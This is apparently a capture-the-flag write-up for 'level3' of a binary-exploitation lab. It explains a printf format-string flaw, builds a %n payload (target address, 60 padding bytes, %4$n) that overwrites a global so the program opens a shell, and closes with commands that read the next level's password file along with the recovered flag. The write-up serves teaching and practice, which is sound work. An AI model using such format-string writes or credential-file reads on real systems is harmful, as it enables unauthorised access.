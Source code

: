 solution level3:

-> our main calls the function v

-> v allocates space on the stack, then uses the method fgets to fill a buffer of 512 bytes. We cannot exploit fgets the same way we exploited gets.

-> next, v calls the method printf with the buffer as argument

-> v then gets the value of global variable m, and compares it to the integer 64:
...
0x080484da <+54>:	mov    eax,ds:0x804988c
0x080484df <+59>:	cmp    eax,0x40
...
> (gdb) x/d 0x804988c
> 0x804988c <m>: 0

-> if m equals 64, the function calls system and opens a new shell, else we leave the function

-> the initial value of m being 0, we need to find a way to change it to 64.

-> from the man of printf:
In C printf(), %n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf() before the occurrence of %n.

-> thus we can change the value of m by using the %n modifier, with the right number of bytes in the buffer:
Our buffer will contain the address of m, which is 4 bytes in size. This will cause the address to be on the stack when printf is called.
For a total of 64, we add 60 padding bytes.
To make sure we are writing on the address of m, we can check its position on the stack with a few tests. We see that it is preceded by 3 other addresses, so we will indicate an argument index of 4 with our %n modifier -> %4$n

> scp -P 2222 Ressources/run.sh level3@127.0.0.1:/tmp/

> bash -x /tmp/run.sh
> cat /tmp/buff - | ./level3
> cat /home/user/level4/.pass
> b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
